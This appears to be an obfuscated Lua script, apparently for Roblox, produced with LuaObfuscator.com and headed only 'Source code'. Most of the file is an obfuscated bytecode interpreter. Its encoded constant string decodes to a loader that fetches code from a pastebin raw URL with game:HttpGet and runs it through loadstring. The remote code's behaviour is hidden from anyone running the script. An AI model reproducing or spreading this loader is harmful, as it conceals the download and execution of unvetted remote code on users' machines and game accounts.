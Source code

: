 --[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.10.8) ~  Much Love, Ferib 

]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then local v87=0;while true do if (v87==0) then v19=v0(v3(v30,1,1));return "";end end else local v88=0;local v89;while true do if (v88==0) then v89=v2(v0(v30,16));if v19 then local v124=v5(v89,v19);v19=nil;return v124;else return v89;end break;end end end end);local function v20(v31,v32,v33) if v33 then local v90=(v31/(2^(v32-(2 -1))))%((5 -(1640 -(1523 + 114)))^(((v33-1) -(v32-((1 + 0) -0))) + (2 -1))) ;return v90-(v90%(1 -0)) ;else local v91=619 -(555 + (1129 -(68 + 997))) ;local v92;while true do if (v91==(931 -(857 + 74))) then v92=(570 -(367 + 201))^(v32-(928 -(214 + 713))) ;return (((v31%(v92 + v92))>=v92) and (1 + 0)) or (0 + (877 -(282 + 595))) ;end end end end local function v21() local v34=v1(v16,v18,v18);v18=v18 + 1 ;return v34;end local function v22() local v35,v36=v1(v16,v18,v18 + 2 );v18=v18 + (1272 -(226 + 1044)) ;return (v36 * (1114 -858)) + v35 ;end local function v23() local v37=117 -(32 + 85) ;local v38;local v39;local v40;local v41;while true do if (v37==(1 + 0)) then return (v41 * (16441815 + 335401)) + (v40 * (121138 -(220989 -165387))) + (v39 * (57 + 199)) + v38 ;end if (v37==(350 -(87 + (1215 -(802 + 150))))) then v38,v39,v40,v41=v1(v16,v18,v18 + (183 -(67 + (303 -190))) );v18=v18 + 3 + 1 ;v37=958 -(892 + 65) ;end end end local function v24() local v42=0 -0 ;local v43;local v44;local v45;local v46;local v47;local v48;while true do if (v42==(0 + 0)) then v43=v23();v44=v23();v42=998 -(915 + 82) ;end if (v42==(8 -5)) then if (v47==(0 + 0 + 0)) then if (v46==(0 -0)) then return v48 * (1187 -(1069 + 118)) ;else v47=1 + 0 ;v45=0 -0 ;end elseif (v47==(4477 -2430)) then return ((v46==0) and (v48 * ((1 + 0)/0))) or (v48 * NaN) ;end return v8(v48,v47-(1817 -794) ) * (v45 + (v46/(2^((824 -(201 + 571)) + 0)))) ;end if (v42==(793 -((1506 -(116 + 1022)) + 423))) then v47=v20(v44,21,97 -66 );v48=((v20(v44,50 -(10 + 8) )==(3 -2)) and  -1) or (443 -(416 + 26)) ;v42=9 -6 ;end if (v42==1) then v45=1 + 0 ;v46=(v20(v44,1 -0 ,458 -(145 + 293) ) * ((432 -(44 + 386))^32)) + v43 ;v42=(6194 -4706) -(998 + 488) ;end end end local function v25(v49) local v50;if  not v49 then local v93=0 + 0 ;while true do if (v93==(0 -0)) then v49=v23();if (v49==(859 -(288 + 526 + 45))) then return "";end break;end end end v50=v3(v16,v18,(v18 + v49) -(2 -1) );v18=v18 + v49 ;local v51={};for v67=(888 -(261 + 624)) -(3 -1) , #v50 do v51[v67]=v2(v1(v3(v50,v67,v67)));end return v6(v51);end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v52=(function() return function(v94,v95,v96,v97,v98,v99,v100,v101) local v94=(function() return 0 + 0 ;end)();local v95=(function() return;end)();local v96=(function() return;end)();while true do if (v94~= #"!") then else if (v95== #">") then v96=(function() return v97()~=(0 + 0) ;end)();elseif (v95==(8 -6)) then v96=(function() return v98();end)();elseif (v95== #"-19") then v96=(function() return v99();end)();end v100[v101]=(function() return v96;end)();break;end if (v94~=(0 + 0)) then else local v118=(function() return 0;end)();while true do if (v118~=(2 -1)) then else v94=(function() return  #"~";end)();break;end if (v118==(1206 -(696 + 510))) then v95=(function() return v97();end)();v96=(function() return nil;end)();v118=(function() return 2 -1 ;end)();end end end end return v94,v95,v96,v97,v98,v99,v100,v101;end;end)();local v53=(function() return function(v102,v103,v104) local v105=(function() return 0 + 0 ;end)();while true do if (v105==0) then v102[v103-#"[" ]=(function() return v104();end)();return v102,v103,v104;end end end;end)();local v54=(function() return {};end)();local v55=(function() return {};end)();local v56=(function() return {};end)();local v57=(function() return {v54,v55,nil,v56};end)();local v58=(function() return v23();end)();local v59=(function() return {};end)();for v69= #"<",v58 do FlatIdent_7DD24,Type,Cons,v21,v24,v25,v59,v69=(function() return v52(FlatIdent_7DD24,Type,Cons,v21,v24,v25,v59,v69);end)();end v57[ #"xnx"]=(function() return v21();end)();for v70= #"}",v23() do local v71=(function() return v21();end)();if (v20(v71, #"}", #"{")~=0) then else local v109=(function() return 0;end)();local v110=(function() return;end)();local v111=(function() return;end)();local v112=(function() return;end)();while true do if (v109==(0 -0)) then local v120=(function() return 1262 -(1091 + 171) ;end)();while true do if ((1 + 0)~=v120) then else v109=(function() return 3 -2 ;end)();break;end if (v120~=(0 -0)) then else v110=(function() return v20(v71,6 -4 , #"-19");end)();v111=(function() return v20(v71, #"?id=",6);end)();v120=(function() return 375 -(123 + 251) ;end)();end end end if (v109~=(9 -7)) then else if (v20(v111, #":", #" ")== #"|") then v112[2]=(function() return v59[v112[2]];end)();end if (v20(v111,700 -(208 + 490) ,2)== #",") then v112[ #"91("]=(function() return v59[v112[ #"-19"]];end)();end v109=(function() return 3;end)();end if (v109~=(1 + 0)) then else local v121=(function() return 0 -0 ;end)();local v122=(function() return;end)();while true do if (v121==0) then v122=(function() return 0;end)();while true do if (v122==(0 -0)) then local v180=(function() return 0 + 0 ;end)();while true do if (0==v180) then v112=(function() return {v22(),v22(),nil,nil};end)();if (v110==(836 -(660 + 176))) then local v184=(function() return 0;end)();while true do if (0~=v184) then else v112[ #"xxx"]=(function() return v22();end)();v112[ #"xnxx"]=(function() return v22();end)();break;end end elseif (v110== #"/") then v112[ #"19("]=(function() return v23();end)();elseif (v110==(1 + 1)) then v112[ #"xxx"]=(function() return v23() -((3 -1)^16) ;end)();elseif (v110== #"gha") then local v189=(function() return 202 -(14 + 188) ;end)();local v190=(function() return;end)();while true do if (v189==(675 -(534 + 141))) then v190=(function() return 0 + 0 ;end)();while true do if (v190==(0 + 0)) then v112[ #"-19"]=(function() return v23() -((2 + 0)^(60 -44)) ;end)();v112[ #"0313"]=(function() return v22();end)();break;end end break;end end end v180=(function() return 1 -0 ;end)();end if ((1825 -(1195 + 629))~=v180) then else v122=(function() return 1;end)();break;end end end if (v122~=(1 -0)) then else v109=(function() return 5 -3 ;end)();break;end end break;end end end if (3~=v109) then else if (v20(v111, #"91(", #"xnx")~= #" ") then else v112[ #"asd1"]=(function() return v59[v112[ #"0313"]];end)();end v54[v70]=(function() return v112;end)();break;end end end end for v72= #"/",v23() do v55,v72,v28=(function() return v53(v55,v72,v28);end)();end return v57;end local function v29(v61,v62,v63) local v64=v61[1 -0 ];local v65=v61[243 -(187 + 54) ];local v66=v61[783 -(162 + 618) ];return function(...) local v73=v64;local v74=v65;local v75=v66;local v76=v27;local v77=1 + 0 ;local v78= -(2 -1);local v79={};local v80={...};local v81=v12("#",...) -(115 -(4 + 110)) ;local v82={};local v83={};for v106=0 + 0 ,v81 do if ((3286<=4935) and (v106>=v75)) then v79[v106-v75 ]=v80[v106 + (1428 -(41 + 1386)) ];else v83[v106]=v80[v106 + (104 -(17 + (162 -76))) ];end end local v84=(v81-v75) + 1 + 0 ;local v85;local v86;while true do v85=v73[v77];v86=v85[1 -0 ];if (v86<=(8 -5)) then if (v86<=1) then if (v86==(166 -(122 + 44))) then local v128=0 -0 ;local v129;local v130;local v131;local v132;local v133;while true do if (v128==(8 -3)) then v129=0 + (238 -(64 + 174)) ;for v181=v133,v78 do v129=v129 + (1637 -(1373 + 38 + 225)) ;v83[v181]=v130[v129];end v77=v77 + ((1482 -481) -(451 + 549)) ;v85=v73[v77];v133=v85[1 + 1 ];v128=6;end if (v128==0) then v129=nil;v130,v131=nil;v132=nil;v133=nil;v83[v85[67 -(30 + 35) ]]={};v128=(337 -(144 + 192)) + 0 ;end if (v128==((1476 -(42 + 174)) -(1043 + 214))) then v83[v133 + 1 ]=v132;v83[v133]=v132[v85[5 -1 ]];v77=v77 + (1213 -(323 + 889)) ;v85=v73[v77];v83[v85[2 -0 ]]=v85[1387 -(746 + 638) ];v128=324 -(53 + 267) ;end if ((788<=3423) and ((1 + 1)==v128)) then v83[v85[2 -0 ]]=v63[v85[344 -(218 + 123) ]];v77=v77 + (1582 -(1535 + 46)) ;v85=v73[v77];v133=v85[2 + 0 ];v132=v83[v85[2 + 1 ]];v128=1 + 2 + 0 ;end if ((((468 + 96) -(306 + 254))==v128) or (4007<741)) then v77=v77 + (127 -(116 + 10)) ;v85=v73[v77];v133=v85[1 + 0 + 1 ];v130,v131=v76(v83[v133](v13(v83,v133 + ((1505 -(363 + 1141)) -0) ,v85[1470 -(899 + 568) ])));v78=(v131 + v133) -(1 + 0) ;v128=10 -5 ;end if (v128==(1 + (1580 -(1183 + 397)))) then v77=v77 + (2 -1) ;v85=v73[v77];v83[v85[(2 -1) + 1 ]]=v63[v85[606 -(268 + 335) ]];v77=v77 + (291 -(60 + 230)) ;v85=v73[v77];v128=574 -(426 + 146) ;end if (v128==(1 + 6)) then v85=v73[v77];do return;end break;end if (v128==(1462 -(282 + 1174))) then v83[v133]=v83[v133](v13(v83,v133 + (812 -(569 + 242)) ,v78));v77=v77 + (2 -1) ;v85=v73[v77];v83[v85[1 + 1 ]]();v77=v77 + (378 -(142 + 235)) ;v128=7;end end else v83[v85[9 -7 ]]={};end elseif ((v86>(1026 -(706 + 318))) or (1155>2350)) then v83[v85[1253 -(721 + 530) ]]=v85[980 -(553 + 424) ];else local v137=v85[1273 -(945 + 326) ];local v138,v139=v76(v83[v137](v13(v83,v137 + (2 -1) ,v85[3 + 0 + 0 ])));v78=(v139 + v137) -((524 + 177) -(271 + 429)) ;local v140=0 + (1975 -(1913 + 62)) ;for v148=v137,v78 do v140=v140 + 1 + 0 + 0 ;v83[v148]=v138[v140];end end elseif ((4029<=4853) and (v86<=(1505 -(1408 + (243 -151))))) then if (v86>(1090 -((2394 -(565 + 1368)) + 625))) then v83[v85[(4851 -3561) -(993 + 295) ]]=v63[v85[1 + 2 ]];else local v143=1171 -(418 + 753) ;local v144;while true do if (v143==(0 + 0)) then v144=v85[1 + 1 ];v83[v144]=v83[v144](v13(v83,v144 + 1 + 0 ,v78));break;end end end elseif (v86<=(2 + 4)) then local v145=(2190 -(1477 + 184)) -(406 + 123) ;local v146;local v147;while true do if (v145==((2409 -640) -(1749 + 20))) then v146=v85[1 + 1 ];v147=v83[v85[1325 -(1249 + 73) ]];v145=1 + 0 ;end if (v145==(2 -1)) then v83[v146 + 1 + 0 ]=v147;v83[v146]=v147[v85[1149 -(466 + 679) ]];break;end end elseif ((v86==(16 -9)) or (516>3434)) then do return;end else v83[v85[5 -3 ]]();end v77=v77 + ((1 + 0) -0) ;end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q747047657403213Q00682Q7470733A2Q2F706173746562696E2E636F6D2F7261772F33566930745A633400099Q003Q00122Q000100013Q00122Q000200023Q00202Q00020002000300122Q000400046Q000200046Q00013Q00024Q0001000100016Q00017Q00",v9(),...);
